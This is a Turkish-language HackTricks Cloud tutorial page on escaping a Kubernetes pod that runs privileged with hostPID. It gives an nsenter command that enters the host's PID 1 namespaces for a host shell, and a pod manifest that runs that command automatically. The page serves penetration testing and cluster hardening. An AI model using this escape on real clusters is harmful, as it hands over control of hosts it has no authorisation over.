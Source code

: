 # Pod Kaçış Yetkileri

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Ayrıcalıklı ve hostPID

Bu ayrıcalıklarla **host süreçlerine erişiminiz** olacak ve **host süreçlerinden birinin ad alanına girmek için yeterli ayrıcalıklara sahip olacaksınız**.\
Ayrıca, ayrıcalıklı olmanıza gerek olmayabilir, sadece bazı yeteneklere ve diğer potansiyel savunma aşmalarına (örneğin apparmor ve/veya seccomp) ihtiyacınız olabilir.

Aşağıdaki gibi bir şey çalıştırmak, pod'dan kaçmanıza izin verecektir:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Yapılandırma örneği:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command: [ "nsenter", "--target", "1", "--mount", "--uts", "--ipc", "--net", "--pid", "--", "bash" ]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
